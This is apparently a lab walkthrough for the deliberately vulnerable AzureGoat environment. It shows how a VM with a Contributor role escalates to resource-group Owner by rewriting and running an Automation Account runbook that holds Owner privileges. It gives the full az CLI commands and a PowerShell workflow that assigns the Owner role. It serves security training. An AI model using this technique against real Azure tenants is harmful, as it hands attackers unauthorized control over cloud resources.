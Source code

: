 # Objective

Leverage the misconfiguration and escalate privilege to the owner of the resource group.

# Solution

We will have a virtual machine with a contributor role assigned and also an automation account runbook with an owner role assigned. SSH into the VM and list the resources inside the resource group and find the runbook inside the automation account. Update the runbook code with the code to change the virtual machine contributor role to the owner. Thus privilege escalation can be done.

**Step 1:** Login to the virtual machine using the credentials obtained from the config.txt file.

Provide the write permission to the justin.pem file and login to the virtual machine.

```
chmod +600 justin.pem

ssh -i justin.pem justin@40.85.170.40
```

![](https://user-images.githubusercontent.com/65826354/183737316-807e8ff3-cfe8-4cc3-a4db-9e260dea3eb1.png)

**Step 2:** Execute the command "az login" and check whether we can interact with the resources or not.

```
az login -i
```

![](https://user-images.githubusercontent.com/65826354/183737322-916d1d8e-b8f6-4e6e-8e84-e3fcd7758acf.png)

**Step 3:** List the resources using the following command.

```
az resource list
```

![](https://user-images.githubusercontent.com/42687376/223097171-4e5a4842-f720-4ab9-be57-7ac8febacd08.png)

In the output, locate the Virtual Machine name and principal ID.

![](https://user-images.githubusercontent.com/42687376/223097139-e22d6c72-4d19-490d-ab77-e8cb77cc37f0.png)

The Virtual Machine name and principal ID were retrieved successfully.

**Step 4:** Check the level of access given to our Virtual Machine.

```
az role assignment list -g azuregoat_app
```

**Note:** If your resource group has a different name, make sure to replace "azuregoat_app" with the actual name of your resource group to ensure that the commands are executed on the correct resource group.

Now, check the level of access given to our Virtual Machine.

Match the principal id of our VM's identity with the role assignments.

![](https://user-images.githubusercontent.com/42687376/223097148-6b15b0a5-94de-4622-b607-ffccc238e919.png)

We have a contributor role assigned. We can not perform role assignment operations to escalate our privileges.

**Step 5:** Check the list of resources to find out which resource is associated with the owner-level identity.

In the list of role assignments, we have an Owner role, we will try to map its principalID with the principalID for one of the resources.

![](https://user-images.githubusercontent.com/42687376/223097150-5886c2d7-5b7c-48c8-a30c-f5529ec8eb49.png)

To correlate this with the principal ID of the resources, you may run the following command again.

```
az resource list
```

![](https://user-images.githubusercontent.com/42687376/223097152-a30a38cd-7d86-429b-9581-15118bb8c799.png)

We found an automation account with Owner privileges. 

**Step 6:** Check for the runbooks to perform privileges escalation.

```
az automation runbook list --automation-account-name <Automation-account-name> -g azuregoat_app 
```

**Note:** Substitute the name of the automation account with the name of the automation account obtained by listing and matching the principal ID of the resource and also if your resource group has a different name, make sure to replace "azuregoat_app" with the actual name of your resource group to ensure that the commands are executed on the correct resource group.

![](https://user-images.githubusercontent.com/65826354/183737366-32394666-7473-4d38-a266-817cf66c0a68.png)

We found a PowerShellWorkFlow based runbook.

**Step 7:** Create a PowerShell script to elevate privileges.

This code will assign the **Owner** role to the Virtual Machine.

```
workflow Get-AzureVM
{
    Disable-AzContextAutosave -Scope Process
    $AzureContext = (Connect-Azaccount -Identity -AccountId <Identity-Client-ID>).context
    $AzureContext = Set-AzContext -SubscriptionName $AzureContext.Subscription -DefaultProfile $AzureContext
    New-AzRoleAssignment -RoleDefinitionName "Owner" -ObjectId <VM-Object-ID> -resourceGroupName <ResourceGroup Name>
}
```
Please update the following placeholders with the appropriate values:
- Replace `<Identity-Client-ID>` with the Client ID of your Automation Account.
- Replace `<VM-Object-ID>` with the Principal ID of your Virtual Machine.
- Replace `<ResourceGroup Name>` with the name of your Resource Group.

![](https://user-images.githubusercontent.com/42687376/223097159-55fe76c7-bfcb-457f-9cb7-a56514e96681.png)

**Step 8:** Replace, publish and re-start the runbook.

We will replace the content inside the azure runbook, publish it and start it to execute the role assignment code.

```
az automation runbook replace-content --automation-account-name "dev-automation-account-test" --resource-group <ResourceGroup Name> --name "Get-AzureVM" --content @exploit.ps1

az automation runbook publish --automation-account-name "dev-automation-account-test" --resource-group <ResourceGroup Name> --name "Get-AzureVM"

az automation runbook start --automation-account-name "dev-automation-account-test" --resource-group <ResourceGroup Name> --name "Get-AzureVM"
```

![](https://user-images.githubusercontent.com/42687376/223097162-b837d122-b0fc-4607-bf59-e2bb36652c51.png)

**Step 9:** Check the role assignment list.

```
az role assignment list -g azuregoat_app
```

**Note:** It may take some time to switch from "Contributor" to "Owner" by using the Runbook. If your resource group has a different name, make sure to replace "azuregoat_app" with the actual name of your resource group

Find our VM using the Principal ID.

![](https://user-images.githubusercontent.com/42687376/223097167-3559a180-3a9e-4257-a592-ef4a6f7563da.png)

The role got changed from contributor to owner.

***Congrats! We successfully escalated the privileges to the owner of the resource group.***
